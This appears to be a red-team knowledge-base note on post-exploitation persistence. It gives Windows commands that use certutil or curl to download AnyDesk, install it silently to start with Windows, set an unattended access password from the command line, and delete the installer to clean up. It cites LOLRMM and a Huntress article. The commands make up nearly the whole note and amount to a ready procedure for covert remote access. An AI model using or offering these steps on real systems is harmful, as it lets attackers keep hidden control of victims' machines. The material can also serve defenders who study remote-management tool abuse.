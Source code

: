 # Living off the Land

## 01 - Download AnyDesk Installer

```
C:\> certutil.exe -urlcache -split -f https://download.anydesk.com/AnyDesk.exe %LOCALAPPDATA%\Temp\Anydesk.exe

C:\> curl.exe -o %LOCALAPPDATA%\Temp\Anydesk.exe https://download.anydesk.com/AnyDesk.exe
```

## 02 - Install AnyDesk

```
C:\> %LOCALAPPDATA%\Temp\Anydesk.exe --start-with-win --slient --install %LOCALAPPDATA%\AnyDesk
```

## 03 - Set Password

```
C:\> echo <password> | %LOCALAPPDATA%\AnyDesk\AnyDesk.exe --set-password
```

## 04 - Delete Anydesk

```
C:\> del %LOCALAPPDATA%\Temp\anydesk.exe
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Third Party/Remote Monitoring and Management/AnyDesk/Malware Development/Scripting]]

### LOLRMM

- [LOLRMM: AnyDesk](https://lolrmm.io/tools/anydesk)

### Huntress

- [Huntress: RATs! Remote Management Software from the Hacker’s Perspective](https://www.huntress.com/blog/rats-remote-management-software-from-the-hackers-perspective)